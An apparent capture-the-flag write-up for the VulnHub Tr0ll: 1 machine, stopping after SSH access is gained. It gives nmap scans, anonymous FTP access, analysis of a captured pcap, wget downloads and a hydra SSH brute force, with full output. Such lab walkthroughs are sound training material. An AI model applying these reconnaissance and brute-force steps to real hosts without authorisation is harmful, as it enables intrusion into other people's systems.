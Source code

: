# Tr0ll: 1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 06:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00042s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.141
Host is up (0.00032s latency).
MAC Address: 00:0C:29:1C:FD:35 (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00037s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.60 seconds
```

The ip address is `192.168.127.141`, let's enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.141 -oN scan

Nmap scan report for 192.168.127.141
Host is up (0.00063s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.127.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:1C:FD:35 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

visit `/robots.txt` of the web page and it shows a disallowed directory :

```text
User-agent:*
Disallow: /secret
```

visiting the above directory has nothing interesting, we take a look at port `21` for `anonymous` login :

```bash
root@kali: ftp 192.168.127.141

Connected to 192.168.127.141.
220 (vsFTPd 3.0.2)
Name (192.168.127.141:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||54900|).
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
226 Directory send OK.
ftp> 
```

we find from here that file `lol.pcap` is available to download, so download and open it with wireshark

filter for `ftp-data` and you will find the packet wihch contains the secret directory :

![wireshark](https://github.com/Git-K3rnel/VulnHub/assets/127470407/556e5be5-5371-4f56-aafc-d4f58dff2da1)

just go to `sup3rs3cr3tdirlol` directory and there is file here called `roflmao` :

![download](https://github.com/Git-K3rnel/VulnHub/assets/127470407/56f7a830-c9af-4f5f-b2f5-85fd70b04fd7)

get this file and we notice this an executable, just run the program :

```bash
root@kali: ./roflmao

Find address 0x0856BF to proceed
```

it just prints a address of memory, since we have no program here that this executable knows the location already, i guessed

that it might me the actual directory we should navigate in the web site so go to `/0x0856BF` :

![directory](https://github.com/Git-K3rnel/VulnHub/assets/127470407/10cd92b7-4704-48c5-a92e-e5df417f47de)

download the files in these two folders :

```bash
root@kali: wget http://192.168.127.141/0x0856BF/good_luck/which_one_lol.txt

root@kali: wget http://192.168.127.141/0x0856BF/this_folder_contains_the_password/Pass.txt
```

inside the `which_one_lol.txt` file we see a list of users :

```txt
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

and inside `Pass.txt`, it just says `Good_job_:)`

i tried brute forcing the ssh with `Good_job` password but it did not work.

since it is just a crazy and ridiculous machine, i though that the folder `this_folder_contains_the_password` in the web site

we found earlier points to the fact that the name of the file `Pass.txt` is the real password

so i used hydra against the SSH service with `Pass.txt` as the password  :

```bash
root@kali:  hydra -L users.txt -p Pass.txt 192.168.127.141 ssh -V

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-17 07:29:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking ssh://192.168.127.141:22/
[ATTEMPT] target 192.168.127.141 - login "maleus" - pass "Pass.txt" - 1 of 10 [child 0] (0/0)
[ATTEMPT] target 192.168.127.141 - login "ps-aux" - pass "Pass.txt" - 2 of 10 [child 1] (0/0)
[ATTEMPT] target 192.168.127.141 - login "felux" - pass "Pass.txt" - 3 of 10 [child 2] (0/0)
[ATTEMPT] target 192.168.127.141 - login "Eagle11" - pass "Pass.txt" - 4 of 10 [child 3] (0/0)
[ATTEMPT] target 192.168.127.141 - login "genphlux" - pass "Pass.txt" - 5 of 10 [child 4] (0/0)
[ATTEMPT] target 192.168.127.141 - login "usmc8892" - pass "Pass.txt" - 6 of 10 [child 5] (0/0)
[ATTEMPT] target 192.168.127.141 - login "blawrg" - pass "Pass.txt" - 7 of 10 [child 6] (0/0)
[ATTEMPT] target 192.168.127.141 - login "wytshadow" - pass "Pass.txt" - 8 of 10 [child 7] (0/0)
[ATTEMPT] target 192.168.127.141 - login "vis1t0r" - pass "Pass.txt" - 9 of 10 [child 8] (0/0)
[ATTEMPT] target 192.168.127.141 - login "overflow" - pass "Pass.txt" - 10 of 10 [child 9] (0/0)
[22][ssh] host: 192.168.127.141   login: overflow   password: Pass.txt
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-17 07:29:11
```
















